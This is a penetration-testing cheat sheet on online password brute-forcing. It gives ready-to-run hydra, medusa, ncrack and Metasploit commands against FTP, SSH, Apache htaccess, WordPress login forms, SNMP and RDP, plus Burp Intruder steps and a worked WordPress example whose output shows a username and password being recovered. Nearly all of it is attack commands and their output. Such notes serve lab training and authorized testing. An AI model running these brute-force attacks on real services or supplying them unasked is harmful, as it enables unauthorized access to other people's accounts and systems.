 # Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

> [https://tools.kali.org/password-attacks/hydra](https://tools.kali.org/password-attacks/hydra)

## Port 21 - FTP

```text
hydra -L users.txt -e nsr 192.168.56.102 ftp
# -e nsr try "n" null password, "s" login as pass and/or "r" reversed login
```

## Port 22 - SSH

```text
# Test a users list to find a user
msf > use auxiliary/scanner/ssh/ssh_enumusers

# Hydra
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4

# Medusa 
# -e ns for additional password checks ([n] No Password, [s] Password = Username)
# -f Stop scanning host after first valid username/password found
# -M to specify the module to execute ie SSH
medusa -h 192.168.56.103 -U users.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh
```

### Authorized keys

[https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/SSH/key-exploit.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/SSH/key-exploit.md)

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

#### Wordpress with hydra

Using BurpSuite, intercept a login attempt:

```text
POST /wp-login.php HTTP/1.1
Host: 192.168.2.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.4/wp-login.php
Cookie: s_cc=true; s_fid=7F27FDE8AFB035AA-13A01347AD602162; s_nr=1550824589386; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.4%2Fwp-admin%2F&testcookie=1
```

We can bruteforce it using hydra:

```text
$ hydra -vV -L wordslist.txt -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

* **-vV** : Verbose
* **-L wordslist.txt** : Try all the usernames from the file wordslist.txt
* **-p wedontcare** : Use an unique password, it doesn’t matter \(we’re only interested in the username for now\)
* **192.168.2.4** : The IP of the machine we’re attacking
* **http-post-form** : What we’re trying to brute force, here a HTTP POST form
* **‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’**
  * **/wp-login.php** : The path to where the form is located
  * **log=^USER^&pwd=^PASS^&wp-submit=Log+In** : The POST parameters to send. ^USER^ and ^PASS^ are placeholders that wiil be replaced with the actual values.
  * **F=Invalid username** : Consider an attempt as a failure \(F\) if the response contains the text _Invalid username_

After a few minutes, we get:

```text
[80][http-post-form] host: 192.168.124.139   login: elliot   password: wedontcare
```

Now we know there is a WordPress user named **elliot**. Let’s try to bruteforce his password using the same technique and word list:

```text
$ hydra -vV -l elliot -P wordslist.txt 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
[...]
[80][http-post-form] host: 192.168.2.4 login: elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.101
```

